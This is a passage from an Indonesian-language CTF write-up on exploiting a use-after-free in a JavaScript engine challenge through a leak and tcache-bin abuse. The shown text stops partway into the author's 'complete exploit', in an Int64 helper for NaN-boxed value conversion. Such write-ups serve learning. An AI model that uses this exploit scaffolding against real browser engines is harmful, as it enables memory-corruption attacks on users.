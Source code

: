 Yah gabisa gitu jadinya. Yasudah karena sudah ada UAF yang perlu kita lakukan hanyalah mendapatkan _leak_ dan gunakan tcache bin dengan cara yang biasa. Oh dan kita harus lakukan semuanya dalam JS, daripada cara biasa yaitu python+pwntools. Saya temukan gist [ini](https://gist.github.com/itszn/73cc299b9bcff1ed585e6206d1ade58e) di github yang membantu saya dengan fungsi-fungsi utility yang saya perlukan

Berikut _exploit_ lengkap saya:

```js
function Int64(v) {
    // The underlying byte array.
    var bytes = new Uint8Array(8);

    switch (typeof v) {
        case 'number':
            v = '0x' + Math.floor(v).toString(16);
        case 'string':
            if (v.startsWith('0x'))
                v = v.substr(2);
            if (v.length % 2 == 1)
                v = '0' + v;

            var bigEndian = unhexlify(v, 8);
            bytes.set(Array.from(bigEndian).reverse());
            break;
        case 'object':
            if (v instanceof Int64) {
                bytes.set(v.bytes());
            } else {
                if (v.length != 8)
                    throw TypeError("Array must have excactly 8 elements.");
                bytes.set(v);
            }
            break;
        case 'undefined':
            break;
        default:
            throw TypeError("Int64 constructor requires an argument.");
    }

    // Return a double whith the same underlying bit representation.
    this.asDouble = function() {
        // Check for NaN
        if (bytes[7] == 0xff && (bytes[6] == 0xff || bytes[6] == 0xfe))
            throw new RangeError("Integer can not be represented by a double");

        return Struct.unpack(Struct.float64, bytes);
    };

    // Return a javascript value with the same underlying bit representation.
    // This is only possible for integers in the range [0x0001000000000000, 0xffff000000000000)
    // due to double conversion constraints.
    this.asJSValue = function() {
        if ((bytes[7] == 0 && bytes[6] == 0) || (bytes[7] == 0xff && bytes[6] == 0xff))
            throw new RangeError("Integer can not be represented by a JSValue");

        // For NaN-boxing, JSC adds 2^48 to a double value's bit pattern.
        this.assignSub(this, 0x1000000000000);
        var res = Struct.unpack(Struct.float64, bytes);
        this.assignAdd(this, 0x1000000000000);

        return res;
    };

    // Return the underlying bytes of this number as array.
```